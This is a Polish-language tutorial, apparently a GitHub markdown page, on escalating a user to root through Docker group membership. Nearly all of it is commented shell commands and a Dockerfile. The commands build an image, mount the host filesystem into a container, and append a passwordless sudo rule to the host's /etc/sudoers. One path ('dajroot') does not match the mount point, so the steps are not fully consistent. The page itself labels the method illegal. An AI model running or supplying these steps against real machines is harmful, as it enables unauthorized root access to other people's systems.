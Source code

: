 # Eskalacja uprawnień użytkownika (nielegalna!)

Testowanie uprawnień i tworzenie pliku dockerfile

```bash
more /etc/passwd | grep <nazwa_usera> # sprawdzenie informacji odnośnie konkretnego użytkownika
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
getent group | grep docker # sprawdzenie grupy docker
getent group | grep user # sprawdzenie grupy user
sudo bash # próba uruchomemia programu jako root (weryfikacja poziomu uprawnień)
mkdir /home/user/folder # utworzenie katalogu roboczego
cd /home/user/folder
nano Dockerfile # otworzenie pliku dockerfile w edytorze nano (jeżeli nie istnieje, to zostanie utworzony)
```

Struktura pliku Dockerfile:

    - FROM debian:wheezy # żródłowy obraz OSa
    - ENV WORKDIR /folder # utworzenie zmiennej środowiskowej
    - RUN mkdir -p $WORKDIR # punkt montowania systemu plików
    - VOLUME $WORKDIR # ustawiemie woluminu
    - WORKDIR $WORKDIR # ustawienie przestrzeni roboczej
    
Kod do Dockerfile: (bez komentarzy)

```docker
    FROM debian:wheezy
    ENV WORKDIR /folder
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
```

Tworzenie, uruchamianie obrazu, wykorzystanie luki i ponowna weryfikacja uprawnień

```bash
docker build -t folder . # tworzenie pliku obrazu folder
docker ps # wyświetlenie listy uruchomionych aplikacji kontenerowych
docker run -v /:/folder -it folder /bin/bash # uruchamianie obrazu (montowanie systemu plików do wskazanej lokalizacji kontenera oraz wybranie trybu internatywnego (opcja -i), opcji wykorzystania terminala (opcja -t), nazwy kontenera (tutaj folder) i powłoki OSa (tutaj /bin/bash) )
cd ..
echo "user ALL=(ALL) NOPASSWD:ALL" >> /folder/etc/sudoers # dodanie użytkownika do grupy sudoers (dopisanie do pliku /etc/sudoers hosta)
cat dajroot/etc/sudoers # wyświetlenie pliku /etc/sudoers
exit # zakończenie pracy z poziomu kontene
sudo bash # wetyfikacja uprawnień
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
cd ~ # przejście do katalogu domowego użytkownika
pwd # wyświetlenie ścieżki do aktualnego folderu
```

